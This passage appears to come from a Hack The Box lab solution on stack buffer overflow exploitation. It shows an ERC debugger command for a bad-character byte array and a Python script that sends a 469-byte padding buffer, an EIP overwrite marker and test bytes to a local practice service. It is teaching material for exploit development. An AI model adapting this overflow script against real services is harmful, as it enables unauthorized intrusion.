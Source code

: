![[HTB Solutions/Others/z. images/66ffe50bbe11fd329fff0bb2f449b973_MD5.jpg]]

Now, students need to repeat the same steps above one more time. First, students need to exclude the bad characters `0x00` and `0x0A` from the byte array that `ERC` generates:

Code: powershell

```powershell
ERC --bytearray -bytes 0x00,0x0A
```

![[HTB Solutions/Others/z. images/c2a3867104510d137592969f09c1b1ed_MD5.jpg]]

Then, students need to use the same Python script as before, however, they also need to remove `0x00` and `0x0A`:

Code: python

```python
import socket
from struct import pack

IP = "127.0.0.1"
port = 21449

def badCharacters():
    characters = bytes([0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,
    0x08, 0x09, 0x0B, 0x0C, 0x0D, 0x0E, 0x0F,
    0x10, 0x11, 0x12, 0x13, 0x14, 0x15, 0x16, 0x17,
    0x18, 0x19, 0x1A, 0x1B, 0x1C, 0x1D, 0x1E, 0x1F,
    0x20, 0x21, 0x22, 0x23, 0x24, 0x25, 0x26, 0x27,
    0x28, 0x29, 0x2A, 0x2B, 0x2C, 0x2D, 0x2E, 0x2F,
    0x30, 0x31, 0x32, 0x33, 0x34, 0x35, 0x36, 0x37,
    0x38, 0x39, 0x3A, 0x3B, 0x3C, 0x3D, 0x3E, 0x3F,
    0x40, 0x41, 0x42, 0x43, 0x44, 0x45, 0x46, 0x47,
    0x48, 0x49, 0x4A, 0x4B, 0x4C, 0x4D, 0x4E, 0x4F,
    0x50, 0x51, 0x52, 0x53, 0x54, 0x55, 0x56, 0x57,
    0x58, 0x59, 0x5A, 0x5B, 0x5C, 0x5D, 0x5E, 0x5F,
    0x60, 0x61, 0x62, 0x63, 0x64, 0x65, 0x66, 0x67,
    0x68, 0x69, 0x6A, 0x6B, 0x6C, 0x6D, 0x6E, 0x6F,
    0x70, 0x71, 0x72, 0x73, 0x74, 0x75, 0x76, 0x77,
    0x78, 0x79, 0x7A, 0x7B, 0x7C, 0x7D, 0x7E, 0x7F,
    0x80, 0x81, 0x82, 0x83, 0x84, 0x85, 0x86, 0x87,
    0x88, 0x89, 0x8A, 0x8B, 0x8C, 0x8D, 0x8E, 0x8F,
    0x90, 0x91, 0x92, 0x93, 0x94, 0x95, 0x96, 0x97,
    0x98, 0x99, 0x9A, 0x9B, 0x9C, 0x9D, 0x9E, 0x9F,
    0xA0, 0xA1, 0xA2, 0xA3, 0xA4, 0xA5, 0xA6, 0xA7,
    0xA8, 0xA9, 0xAA, 0xAB, 0xAC, 0xAD, 0xAE, 0xAF,
    0xB0, 0xB1, 0xB2, 0xB3, 0xB4, 0xB5, 0xB6, 0xB7,
    0xB8, 0xB9, 0xBA, 0xBB, 0xBC, 0xBD, 0xBE, 0xBF,
    0xC0, 0xC1, 0xC2, 0xC3, 0xC4, 0xC5, 0xC6, 0xC7,
    0xC8, 0xC9, 0xCA, 0xCB, 0xCC, 0xCD, 0xCE, 0xCF,
    0xD0, 0xD1, 0xD2, 0xD3, 0xD4, 0xD5, 0xD6, 0xD7,
    0xD8, 0xD9, 0xDA, 0xDB, 0xDC, 0xDD, 0xDE, 0xDF,
    0xE0, 0xE1, 0xE2, 0xE3, 0xE4, 0xE5, 0xE6, 0xE7,
    0xE8, 0xE9, 0xEA, 0xEB, 0xEC, 0xED, 0xEE, 0xEF,
    0xF0, 0xF1, 0xF2, 0xF3, 0xF4, 0xF5, 0xF6, 0xF7,
    0xF8, 0xF9, 0xFA, 0xFB, 0xFC, 0xFD, 0xFE, 0xFF])
    offset = 469
    buffer = b"A" * offset
    EIP = b"B" * 4
    payload = buffer + EIP + characters
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((IP, port))
    s.send(payload)
```